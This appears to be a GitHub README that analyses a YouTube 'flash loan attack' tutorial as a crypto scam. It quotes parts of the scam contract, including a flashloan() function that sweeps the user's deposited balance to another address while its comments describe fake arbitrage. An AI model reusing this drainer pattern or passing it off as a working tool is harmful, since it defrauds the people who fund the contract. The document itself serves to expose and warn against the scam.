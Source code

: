 # Flash Loan Scam on YouTube
Analysis of "flash loan attack" from YouTuber https://www.youtube.com/watch?v=HynfsKoFlaw&amp;t=105s

## Background

The YouTuber "Crypto Academy" https://www.youtube.com/channel/UCgiMBbCjQnaf2q3_cs06KOw  posted a video on how to orchestrate a FlashLoan attack.  I decided to verify the claims of this video by inspecting the code. This is my analysis of the video with a review of the code.

## Concern 1:  Code on GhostBin
The attack code is on GhostBin, an anonymous file sharing platform not GitHub or GitHub gist. 

![Screenshot from 2021-07-05 10-57-20](https://user-images.githubusercontent.com/8411406/124406464-c7a78c00-dd84-11eb-9346-c34d5901b30a.png)

## Concern 2:  Code on IPFS
From the GhostBin code the contract imports a contract from IPFS at QmSPEmnJEVjRbtmdcbeApHAVFVYGT4Lefrp45Ca2QK5923.  This obfiscates the code from anyone wanting to inspect what the contract does.  I have included the IPFS code in this repo to inspect. 

## Conern 3:  Bad / unknown addresses
In the IPFS file LN 128 references the contract `0x9c7770E88dd4c4F972283E97B4FeBD2991e0E05B`.  This does not exist on the Ethereum blockchain.   https://etherscan.io/address/0x9c7770E88dd4c4F972283E97B4FeBD2991e0E05B

![Screenshot from 2021-07-05 11-02-31](https://user-images.githubusercontent.com/8411406/124406453-c2e2d800-dd84-11eb-9cb3-70695158b179.png)
![Screenshot from 2021-07-05 10-56-40](https://user-images.githubusercontent.com/8411406/124406486-d42be480-dd84-11eb-9dd4-6c875167c8bb.png)

# Inspecting the code
After downloading the IPFS file [QmSPEmnJEVjRbtmdcbeApHAVFVYGT4Lefrp45Ca2QK5923](/QmSPEmnJEVjRbtmdcbeApHAVFVYGT4Lefrp45Ca2QK5923) there are a lot of concerns!

## Concern 4:  Commented out code
Code in the "Router" contract are commented out and done using the `/*` method instead of `\\` which is technically correct, but easy to miss unless put into an IDE such as VS Code.

```
    function lendingPoolFlashloan(uint256 _asset) public pure {
        uint256 data = _asset; 
        require(data != 0, "Data can't be 0.");/*
        uint amount = 1 BNB;

        ILendingPool lendingPool = ILendingPool(addressesProvider.getLendingPool());
        lendingPool.flashLoan(address(this), _asset, amount, data);*/
    }
```

![Screenshot from 2021-07-05 11-21-05](https://user-images.githubusercontent.com/8411406/124405982-6501c080-dd83-11eb-82dd-779f54591bf4.png)

Lots of methods are simply commented out or do nothing, such as 

```
    //5. Note that the transaction sender gains 3.29 BNB from the arbitrage, this particular transaction can be repeated as price changes all the time.
    function completeTransation(uint256 balanceAmount) public pure {
        require(balanceAmount >= 0, "Amount should be greater than 0!");
    }
```

## Concern 5:  SENDING ALL THE ETH!
In the method "flashloan", LN44 sweeps the entire amount of the Ethereum in the contract.  The premis of the video is to use borrowed funds, not your own ETH to attack defi contracts such as UniSwap.

* NOTE THE AUTHOUR OF THE VIDEO ASKS YOU TO FUND THE CONTRACT.  In otherwords, he will sweep this ETH.  In the video at 5:12 https://youtu.be/HynfsKoFlaw?t=312 the other funds his contract with 0.2 BNB.  This is what will be swept from you.

```
	function flashloan() public payable {
    	// Send required coins for swap
    	address(uint160(router.pancakeSwapAddress())).transfer(
        	address(this).balance
    	);

    	//Flash loan borrowed 3,137.41 BNB from Multiplier-Finance to make an arbitrage trade on the AMM DEX PancakeSwap.
    	router.borrowFlashloanFromMultiplier(
        	address(this),
        	router.bakerySwapAddress(),
        	flashLoanAmount
    	);

    	//To prepare the arbitrage, BNB is converted to BUSD using PancakeSwap swap contract.
    	router.convertBnbToBusd(msg.sender, flashLoanAmount / 2);
    	//The arbitrage converts BUSD for BNB using BUSD/BNB PancakeSwap, and then immediately converts BNB back to 3,148.39 BNB using BNB/BUSD BakerySwap.
    	router.callArbitrageBakerySwap(router.bakerySwapAddress(), msg.sender);
    	//After the arbitrage, 3,148.38 BNB is transferred back to Multiplier to pay the loan plus fees. This transaction costs 0.2 BNB of gas.
    	router.transferBnbToMultiplier(router.pancakeSwapAddress());
    	//Note that the transaction sender gains 3.29 BNB from the arbitrage, this particular transaction can be repeated as price changes all the time.
    	router.completeTransation(address(this).balance);
	}
```

![Screenshot from 2021-07-05 11-28-41](https://user-images.githubusercontent.com/8411406/124406426-b199cb80-dd84-11eb-96ca-13e10c5a344e.png)


# Socials 
## Concern 3: Social profile
The YouTuber only has a few followings and only 3 videos at time of writing on "Flash Loans"
![Screenshot from 2021-07-05 10-55-32](https://user-images.githubusercontent.com/8411406/124405464-11db3e00-dd82-11eb-8346-de1eac423640.png)

## Concern 4: Fake comments
There are profiles such as "Marcus Canton" with no profile image commenting "Amazing I did it twice and earned over 5BNB. Great JOB!!".  Clicking "his" profile shows they only registered a few days ago at time of writing.

![Screenshot from 2021-07-05 11-07-01](https://user-images.githubusercontent.com/8411406/124405446-038d2200-dd82-11eb-80d0-dad085fabfba.png)


# Final words
Stay safe out there!  Visit real meetups like www.bitcoinbrisbane.com.au or meetup.com/bitcoinbrisbane to get real information.
